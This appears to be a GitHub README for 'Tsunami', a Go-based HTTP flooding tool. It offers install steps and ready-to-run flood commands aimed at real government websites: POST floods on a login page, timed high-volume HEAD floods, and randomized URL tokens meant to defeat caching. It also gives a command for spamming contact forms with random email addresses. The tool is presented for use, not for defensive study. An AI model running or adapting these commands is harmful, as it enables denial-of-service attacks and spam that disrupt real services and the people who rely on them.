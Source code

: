 # Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__
- Realistic User Agent randomization
- Dynamic payloads

## Table of Contents
1. [Basic Usage](#basic-usage)
2. [Help](#help)
3. [Quick Install](#quick-install)
4. [Examples](#examples)
   - [Low Volume POST Flood Lasting Forever](#low-volume-post-flood-lasting-forever)
   - [High Volume HEAD Flood Lasting For 10 Minutes](#high-volume-head-flood-lasting-for-10-minutes)
   - [Contact Us Form Spam](#contact-us-form-spam)
5. [Dynamic Tokens](#dynamic-tokens)
6. [Todo](#todo)

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://whitehouse.gov --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick Install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Dynamic Tokens
Dynamic tokens allows you to implement elements of randomness in your requests. There are currently 2 tokens:
- {D} - A random digit
- {l} - A random lowercase letter
- {L} - A random uppercase letter

On every request, every token will be replaced.

Example command:
```bash
./tsunami -w 1 http://nsa.gov/{L}{L}{l}{D}
```
The requests will use URLs similar to these:

```
http://nsa.gov/AYz3
http://nsa.gov/BCv6
http://nsa.gov/NFz7
http://nsa.gov/IPa1
```

## Examples
### Low Volume POST Flood Lasting Forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Ammar&password=g1thuB123"
```
### High Volume HEAD Flood Lasting For 10 Minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```
### Contact Us Form Spam
```bash
./tsunami -w 1 "https://ammar.io/contact-us" POST "email={l}{l}{l}{l}{l}{l}{l}@gmail.com&message=spamspamspamspam"
```
## Todo
 - Custom headers
 - ???